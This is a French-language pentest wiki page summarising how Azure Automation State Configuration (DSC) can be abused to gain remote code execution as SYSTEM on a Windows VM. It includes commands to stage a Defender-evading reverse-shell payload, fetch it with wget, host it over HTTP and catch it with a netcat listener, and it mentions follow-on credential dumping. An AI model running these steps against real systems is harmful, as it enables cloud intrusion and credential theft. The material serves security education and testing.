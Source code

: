 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Vérifiez le post complet sur :** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Résumé de la préparation de l'infrastructure de serveur distant (C2) et des étapes

#### Aperçu

Le processus implique la mise en place d'une infrastructure de serveur distant pour héberger un payload modifié de Nishang `Invoke-PowerShellTcp.ps1`, nommé `RevPS.ps1`, conçu pour contourner Windows Defender. Le payload est servi depuis une machine Kali Linux avec l'IP `40.84.7.74` en utilisant un simple serveur HTTP Python. L'opération est exécutée à travers plusieurs étapes :

#### Étape 1 — Créer des fichiers

- **Fichiers requis :** Deux scripts PowerShell sont nécessaires :
1. `reverse_shell_config.ps1` : Un fichier de Configuration d'État Désirée (DSC) qui récupère et exécute le payload. Il est disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1` : Un script pour publier la configuration sur la VM, disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personnalisation :** Les variables et paramètres dans ces fichiers doivent être adaptés à l'environnement spécifique de l'utilisateur, y compris les noms de ressources, les chemins de fichiers et les identifiants de serveur/payload.

#### Étape 2 — Compresser le fichier de configuration

- Le `reverse_shell_config.ps1` est compressé dans un fichier `.zip`, le rendant prêt pour le transfert vers le compte de stockage Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Étape 3 — Définir le contexte de stockage et télécharger

- Le fichier de configuration compressé est téléchargé dans un conteneur de stockage Azure prédéfini, azure-pentest, en utilisant la cmdlet Set-AzStorageBlobContent d'Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Étape 4 — Préparer la boîte Kali

- Le serveur Kali télécharge le payload RevPS.ps1 depuis un dépôt GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Le script est modifié pour spécifier la VM Windows cible et le port pour le reverse shell.

#### Étape 5 — Publier le fichier de configuration

- Le fichier de configuration est exécuté, ce qui entraîne le déploiement du script de reverse shell à l'emplacement spécifié sur la VM Windows.

#### Étape 6 — Héberger le payload et configurer l'écouteur

- Un Python SimpleHTTPServer est démarré pour héberger le payload, avec un écouteur Netcat pour capturer les connexions entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tâche planifiée exécute le payload, atteignant des privilèges de niveau SYSTEM.

#### Conclusion

L'exécution réussie de ce processus ouvre de nombreuses possibilités pour d'autres actions, telles que le dumping de credentials ou l'expansion de l'attaque à plusieurs VMs. Le guide encourage l'apprentissage continu et la créativité dans le domaine d'Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}

